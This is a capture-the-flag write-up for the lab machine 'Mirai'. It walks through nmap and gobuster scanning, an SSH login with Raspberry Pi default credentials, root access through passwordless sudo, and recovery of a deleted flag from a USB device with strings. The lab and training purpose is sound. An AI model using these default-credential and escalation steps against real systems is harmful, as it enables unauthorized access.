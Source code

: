# Solution

The name of the machine may give us an idea of what to expect from the box. 
Mirai is a malware which scans the internet for open telnet ports and tries to log in with default credentials. It managed to create a huge botnet in the past.  
We can expect that exploiting default credentials in some services, we can gain access to the box.

Start with the usual nmap to enumerate
```
nmap -sC -sV -oN nmap-initial 10.10.10.48
```

We see SSH and port 80 open. Browsing the website we get a blank page.  

We run gobuster
```
gobuster dir -u http://10.10.10.48 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 25 -o gobuster.out
```

One of the exposed directories is /admin. By browsing it, we access the  pihole admin interface. We thus know that the machine is a raspberry pi. We can try to log in through SSH using the default credentials (user:pi , password:raspberry).  
It works and we have a shell. Once we are inside we check whether the user pi can use sudo on any commands.
```
>sudo -l

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```
We can run all the commands and no need to provide a password. Therefore:
>pi@raspberrypi:~/Desktop $ sudo -i
root@raspberrypi:~# ls
root.txt
root@raspberrypi:~# cat root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```

The root.txt file is not here. Mmmmm, he mention something about the USB stick.  
Usually the USB sticks are mounted under the /media directory. If we move to that directory we find a directory and a file.  
```
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Next step is to recover the file deleted by James. We can see if the file is still in the USB memory. 
First we see what is the device fileof the USB stick:
```
>root@raspberrypi:/media/usbstick# df
Filesystem     1K-blocks    Used Available Use% Mounted on
aufs             8856504 2838380   5545192  34% /
tmpfs             102396    4868     97528   5% /run
/dev/sda1        1354528 1354528         0 100% /lib/live/mount/persistence/sda1
/dev/loop0       1267456 1267456         0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs             255988       0    255988   0% /lib/live/mount/overlay
/dev/sda2        8856504 2838380   5545192  34% /lib/live/mount/persistence/sda2
devtmpfs           10240       0     10240   0% /dev
tmpfs             255988       8    255980   1% /dev/shm
tmpfs               5120       4      5116   1% /run/lock
tmpfs             255988       0    255988   0% /sys/fs/cgroup
tmpfs             255988       8    255980   1% /tmp
/dev/sdb            8887      93      8078   2% /media/usbstick
tmpfs              51200       0     51200   0% /run/user/999
tmpfs              51200       0     51200   0% /run/user/1000
```
It is /dev/sdb. We can now print the readable characters in the device file and hope for a flag :)
```
strings /dev/sdb
```

The content of the deleted file has not been overwritten and it's still in the USB memory.  
Here is the flag :)
